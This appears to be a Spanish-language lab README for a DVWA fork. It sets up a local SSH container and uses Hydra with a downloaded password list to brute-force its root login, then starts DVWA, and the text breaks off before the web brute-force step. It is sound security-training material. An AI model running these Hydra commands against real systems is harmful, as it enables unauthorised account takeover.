 About

Damn Vulnerable Web Application (DVWA) is a PHP/MySQL web application that is damn vulnerable. Its main goals are to be an aid for security professionals to test their skills and tools in a legal environment, help web developers better understand the processes of securing web applications and aid teachers/students to teach/learn web application security in a class room environment

Project Home: https://github.com/digininja/DVWA

PRIMERA PARTE
===============================================================
1

Si usa https://labs.play-with-docker.com/ se recomienda usar 

docker login -u username -p password
git clone https://github.com/cesarbobadilla/dvwa.git
cd dvwa  
git checkout BruteForce

2

En la carpeta SSH, usamos el archivo Dockerfile, luego 

docker build -t alpine-ssh SSH/.

docker run --rm --publish=2222:22 alpine-ssh

3

Desde otra instancia podemos probar el acceso 

ssh root@host -p 2222   por ejemplo ( ssh root@192.168.0.6 -p 2222 )

Ponemos el password: computer (que se configuro en el ejemplo, especificamente en el Dockerfile)

4

Ahora en otra instancia, usamos lo que hay en la carpeta HYDRA, usamos el archivo Dockerfile, luego

git clone https://github.com/cesarbobadilla/dvwa.git
cd dvwa  
git checkout BruteForce
docker build -t kali-hydra HYDRA/.
docker run -it kali-hydra /bin/bash 

Una vez que estamos en la shell del contenedor, descargamos un diccionario de contraseñas de 10000 posibilidades

curl https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/darkweb2017-top10000.txt > passlist.txt

Y ahora ejecutamos Hydra para que adivine la contraseña configurada, dandole previamente el usuario root y de referencia el diccionario descargado passlist.txt. En el ejemplo consideramos que el ssh esta corriendo en la 192.168.0.6

hydra -s 2222 -l root -P passlist.txt 192.168.0.6 -t 4 -V ssh 

Debería seguir ejecutando hasta que vea algo como

...

..

.

[ATTEMPT] target 192.168.0.17 - login "root" - pass "159753" - 55 of 9999 [child 0] (0/0)

[ATTEMPT] target 192.168.0.17 - login "root" - pass "iloveyou1" - 56 of 9999 [child 2] (0/0)

[2222][ssh] host: 192.168.0.17   login: root   password: computer

1 of 1 target successfully completed, 1 valid password found

Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-08-30 15:54:40



Donde concluimos que la contraseña adivinada es "computer"


SEGUNDA PARTE
===============================================================

1

Levantamos otra instancia donde ejecutamos el proyecto de DVWA

git clone https://github.com/cytopia/docker-dvwa.git
cd docker-dvwa/
make start


Una vez concluido esto debemos ver algo como


...

..

.

$ make start


+] Running 4/4

 ✔ Network docker-dvwa_dvwa-net       Created                                                                       0.0s 
 
 ✔ Volume "docker-dvwa_dvwa_db_data"  Created                                                                       0.0s 
 
 ✔ Container docker-dvwa-dvwa_web-1   Started                                                                       0.1s
 
 ✔ Container docker-dvwa-dvwa_db-1    Started                                                                       0.1s
 
docker-compose logs dvwa_web 2>&1 | grep "Setting"

docker-dvwa-dvwa_web-1  | Setting PHP version:        PHP 8.1.16 (cli) (built: Mar  1 2023 12:38:41) (NTS)

docker-dvwa-dvwa_web-1  | Setting MySQL hostname:     dvwa_db

docker-dvwa-dvwa_web-1  | Setting MySQL database:     dvwa

docker-dvwa-dvwa_web-1  | Setting MySQL username:     dvwa

docker-dvwa-dvwa_web-1  | Setting MySQL password:     ********

docker-dvwa-dvwa_web-1  | Setting Recaptcha priv key: 

docker-dvwa-dvwa_web-1  | Setting Recaptcha pub key:  

docker-dvwa-dvwa_web-1  | Setting Security level:     medium

docker-dvwa-dvwa_web-1  | Setting PHP error display:  0

docker-dvwa-dvwa_web-1  | Setting PHP IDS state:      disabled

docker-dvwa-dvwa_web-1  | Setting PHP IDS verbosity:  false


 Y el proyecto estará ejecutando en el puerto 8000, en login.php, ingresamos con usuario admin y password admin, esto nos llevará a setup.php donde configuramos el proyecto presionando el boton  "Create/Reset Database" al final de la página, al final de la página aparecerá algo como:

 ...
 ..
 .
Database has been created.
'users' table was created.
Data inserted into 'users' table.
'guestbook' table was created.
Data inserted into 'guestbook' table.
Backup file /config/config.inc.php.bak automatically created
Setup successful!
Please login.

Damos click al link de login que estará resltado en verde, en usuario colocamos admin y en password colocamos password, esto nos llevará a index.php

ahí, vamos al las opciones finales y elegimos el boton de "DVWA Security" y elegimos el nivel "Low" y damos click al boton Submit, despuès vamos al boton de Brute Force y estamos listos para iniciar el ataque con hydra, 

regresamos a la instancia donde se encuentra Hydra y 









 




